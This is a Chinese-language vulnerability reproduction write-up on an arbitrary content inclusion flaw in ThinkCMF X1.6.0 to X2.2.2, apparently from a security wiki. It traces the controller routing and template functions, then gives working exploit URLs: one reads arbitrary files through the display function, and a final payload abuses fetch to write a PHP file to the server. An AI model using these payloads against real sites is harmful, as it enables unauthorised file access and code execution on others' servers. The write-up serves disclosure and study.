



ThinkCMF 框架上的任意内容包含漏洞
=================================

一、漏洞简介
------------

二、漏洞影响
------------

ThinkCMF X1.6.0 ThinkCMF X2.1.0 ThinkCMF X2.2.0 ThinkCMF X2.2.1 ThinkCMF
X2.2.2

三、复现过程
------------

根据index.php中的配置，他的项目路径为application，打开 Portal 下的
Controller 目录，选择一个控制类文件。

发现他的父类为Common\\Controller\\HomebaseController。
在HomeBaseController中加入如下测试代码

ThinkPHP是一套基于MVC的应用程序框架，被分成三个核心部件：模型（M）、视图（V）、控制器（C）。
由于添加的代码在控制器中，根据ThinkPHP框架约定可以通过a参数来指定对应的函数名，但是该函数的修饰符必须为Public,
而添加的代码正好符合该条件。
可以通过如下URL进行访问，并且可以添加GET参数arg1传递给函数。

    http://127.0.0.1/cmfx-master/?a=test_public&arg1=run%20success

HomeBaseController类中有一些访问权限为public的函数，

重点关注display函数.看描述就是可以自定义加载模版，通过
\$this-\>parseTemplate
函数根据约定确定模版路径，如果不符合原先的约定将会从当前目录开始匹配。
然后调用THinkphp Controller 函数的display方法

    /**
     * 加载模板和页面输出 可以返回输出内容
     * @access public
     * @param string $templateFile 模板文件名
     * @param string $charset 模板输出字符集
     * @param string $contentType 输出类型
     * @param string $content 模板输出内容
     * @return mixed
     */
    public function display($templateFile = '', $charset = '', $contentType = '', $content = '', $prefix = '') {
        parent::display($this->parseTemplate($templateFile), $charset, $contentType,$content,$prefix);
    }

再往下就是调用Think View的fetch方法，这里的TMPL\_ENGINE\_TYPE 为Think,
最终模版内容解析在ParseTemplateBehavior中完成 如下调用即可加载任意文件
<http://0-sec.org:81/cmfx-master/?a=display&templateFile=README.md>

往下面翻阅发现还有fetch方法，display方法相对fetch只是多了一个render的过程，而且这里不需要知道文件路径

最终完美payload

    http://0-sec.org/?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test.php','<?php phpinfo(); ?>')</php>
